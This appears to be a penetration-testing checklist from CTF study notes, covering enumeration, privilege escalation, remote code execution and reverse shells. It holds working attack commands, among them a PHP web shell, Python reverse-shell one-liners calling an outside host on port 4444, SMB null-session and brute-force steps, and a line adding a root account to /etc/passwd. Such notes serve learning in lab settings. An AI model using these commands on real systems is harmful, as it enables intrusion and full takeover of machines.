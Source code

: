# Checklist
# Preperation

<details>
  <summary>Expand</summary>

- [ ] Find IP of the machine
	- [ ] `export IP=<MACHINE_IP>`
	- [ ] `export MACHINE_NAME=<MACHINE_NAME>`
- [ ] Set folder structure
	- [ ] `cd ctf/`
	- [ ] `mkdir -p $MACHINE_NAME/enum`
	- [ ] `mkdir -p $MACHINE_NAME/files`
	- [ ] `touch $MACHINE_NAME/enum/users.txt`
	- [ ] `cp templates/report.md ctf/$MACHINE_NAME/${MACHINE_NAME}.md`
- [ ] Set hostname in etc/hosts (if helps)

</details>


# Enumeration

<details>
  <summary>Expand</summary>

- [ ] Enum
	- [ ] Nmap
		- [ ] [Howto](active-information-gathering/nmap.md)
			- [ ] Copy key findings to report
			- [ ] check results
			- [ ] Paste to [report](templates/report.md)
			- [ ] Highlight exploitables/targets
		- [ ] Rustscan
			- [ ] check results
	  - [ ] `enum4linux $IP` -> users, share, comon structure, server block.
	    - [ ] Highlights
	      - [ ] check results
	      - [ ] Check SMB null session
	      - [ ] system level users
		- [ ] nmap-nse
			- [ ] [Howto](active-information-gathering/nmap.md#nmap-nse)
		- [ ] smb/netbio-ssn
			- [ ] Ports [139, 445]
			- [ ] `mkdir smb`
			- [ ] `nmap -p139,445 --script=smb-enum-shares $IP`
				- [ ] `smbclient //<IP>/IPC$ -N (/ADMINS/)` -> N: smb null session.
				- [ ] smbclient //'IP'/qui -N
				- [ ] crackmapexec
				- [ ] mfsconsole > use auxilaiary(scanner/smb/smb_login) > set pass rockyou.
			- [ ] `smbmap -H $IP`
			- [ ] `smbclient --no-pass -L //$IP`
			- [ ] `smbclient --no-pass \\\\$IP\\anonymous`
			- [ ] `smbclient \\\\$IP\\ITDEPT anonymous` [Tested]
			- [ ] `mget file.name`
			- [ ] `smbmap -u <user> -p <PassWord> -H $IP`
			- [ ] `smbclient //'IP'/<share> -U'user'%'password'`
			- [ ] `smbclient //$IP/secured -U <user>%<password> -c "prompt OFF;recurse ON;mget *"`
		- [ ] ssl/pop3 [110]
		- [ ] ssl/imap [993/143]
		- [ ] Apache Tomcat [8080]
			- [ ] Read Version
			- [ ] Check URL (hints)
			- [ ] default credentials
			- [ ] mfsconsole /is it allowed?
		- [ ] Domain [53]
		- [ ] Web Enum
			- [ ] Load each targetted port in browser
			- [ ] export PORT=80
			- [ ] `dirb http://$IP:$PORT/ -r`
			- [ ] `nikto --host http://<IP> -C all` :: tool for webapp
			- [ ] `export URL=${IP}:8080/FUZZ` or `export URL=${IP}:8080/FUZZ/`
				- [ ] HTTPS you will want to include protocol too
				- [ ] `wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"`
			- [ ] `gobuster dir -u http://$IP -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt`  :: helpful during bruteforce
			- [ ] framework/server/service -> searchexploit
			- [ ] Check for config through URL's like
			- [ ] hostname/username/re-use etc
			- [ ] LFI
				- [ ] check for ssh keys
				- [ ] check for service/app configuration file (e.g: /etc/tomcat7/tomcat-users)
				- [ ] vsftpd -> upload, to rce from upload file
			- [ ] RFI
				- [ ] rev shell
					- [ ] https://www.revshells.com/
					- [ ] `python -c 'import pty;pty.spawn("/bin/bash")'`
			- [ ] `linpeas.sh`
			- [ ] CUPS Http `631`
		- [ ] SSH
			- [ ] hydra
				- [ ] [Howto](tools/bruteforce/ssh/hydra)
		- [ ] `curl -A "GoogleBot" http://$IP/robots.txt`
		- [ ] searchsploit
		- [ ] Port knocking
			- [ ] nmap port knock 
	- [ ] /cgi-bin
		- [ ] shellshock [Howto](../../foothold/shellshock/README.md)
	- [ ] morse code?
</details>


# Privilege Escalation

<details>
	<summary>Expand</summary>

- [ ] privileges escalation
	- [ ] `sudo -l`
	- [ ] password re-use
		- [ ] from credentials founds in enum
		- [ ] `su - <user>`
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test 
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`
		- [ ] e.g: `sudo /usr/bin/mysql -e '\! /bin/sh'`  [sudo nopass for mysql](https://gtfobins.github.io/gtfobins/mysql/#sudo)
	- [ ] `netstat -tupanl | grep -i '127.0.0.1'` -> anything running on loopback
	- [ ] `find / -perm -u=s -type f 2>/dev/null` 
		- [ ] *_The first step is to identify all programs or files that have SUID bits enabled_*
			- [ ] example
				- [ ] /usr/bin/zsh
		- [ ] Read Source Code (if any)
		- [ ] look for files owned by root grouped by user.
		- [ ] `ps aux | grep -i 'root' --auto-color` <-- anything running as root?
			- [ ] lateral machines? (not done anything like this)
			- [ ] private ip address? (not done anything)
			- [ ] web root -> any db credes?
	- [ ] Take advantage of this misconfiguration by abusing the PATH variable
	- [ ] Take advantage of misconfigured cronjob.
	- [ ] `find / -perm -u=g -type f 2>/dev/null` -> Are there any GUID
	- [ ] simple HTTP server
		- [ ] download pspy
		- [ ] Second shell -> `pspy<BIT>`
		- [ ] `getcap -r / 2>/dev/null` -> Are there any extended permissions
		- [ ] exploit miss-configuration
	- [ ] writeable `passwd`?
		- [ ] `perl -le 'print crypt("PassWord","addedsalt")'`
		- [ ] `echo "nullBrain:saltedvaluefromabove:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd`
	- [ ] `kernel exploits?`
		- [ ] e.g Dirty Cow [example HowTo](practical/dirty_cow)

</details>


# Remote Code Execution (RCE)

<details>
	<summary>Expand</summary>

- [ ] Remote Code Execution
	- [ ] `<?php system($_GET['cmd']);?>`
	- [ ] Verify RCE
		- [ ] e.g : `http://$IP/<path>/?lang=/var/ftp/pub/backdoor.php&cmd=id`.`
		- [ ] Payload:
			- [ ] https://github.com/nullbr41n/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
			- [ ] payload converter (hURL)
			- [ ] `python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`
			- [ ] `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
</details>


# Reverse Shell

<details>
	<summary>Expand</summary>

- [ ] Reverse Shell
	- [ ] web uploads
		- [ ] `nc - nlvp 1` `Listening on port 1`
		- [ ] Upload payload on other side, should open connection
		- [ ] check RCE section.
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`

</details>